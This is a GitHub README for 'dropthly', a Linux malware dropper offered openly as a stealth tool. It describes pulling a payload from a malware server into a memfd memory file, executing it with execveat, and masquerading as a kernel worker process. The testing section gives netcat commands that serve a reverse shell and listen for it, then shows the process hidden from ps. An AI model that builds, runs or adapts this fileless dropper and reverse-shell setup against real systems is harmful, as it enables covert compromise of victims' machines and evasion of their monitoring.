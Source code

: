 _____________________________________________
![maxresdefault](https://github.com/user-attachments/assets/f3d868ab-0eeb-4127-9be6-bc6ff920b0df)
______________________________________________
# DROPTHLY
dropthly is a stealthy dropper for Linux which downloads and executes entire binary in memory without leaving any tracks on victims machine.

## Working
The program just use very simple and direct method to drop payload.
  1) Connect to ip 127.0.0.1 on port 4444 of malware server.<br>
  2) Creates a memory file using <code>memfd_create()</code>.<br>
  3) Reads data from the stream and writes it into the memory file.<br>
  4) Runs the memory file using <code>execveat()</code> when all the data has been transferred and also becomes stealthy.

## Testing
launch the malware-server:
```bash
malware-server$ cat ./revshell | nc -lp 4444
```
lunch revshell listener:
```bash
attacker:$ nc -lnvp 8080 //listening revshell at port 8080
```
Compile and launch dropthly on victims machine:
```bash
victim:$ cargo build --release 
victim:$ ./dropthly
```
We have currently established a TCP connection to victim machine now proceed to check the file descriptors of dropthly.
```bash
attacker:$ ps -ax | grep dropthly 
  37191 pts/5    S+     0:00 grep dropthly
```
No trace of dropthly. Now see how dropthly looks like:
```bash
attacker:$ ps -ax | grep ar.p
  36660 pts/0    S      0:00 [kworker/ar.p] 
  37039 pts/5    S+     0:00 grep ar.p
```
you can change name [kworker/ar.p] to any others from main.rs

## License
This project is licensed under [MIT](https://github.com/0x00snape/dropthly/blob/main/LICENSE)
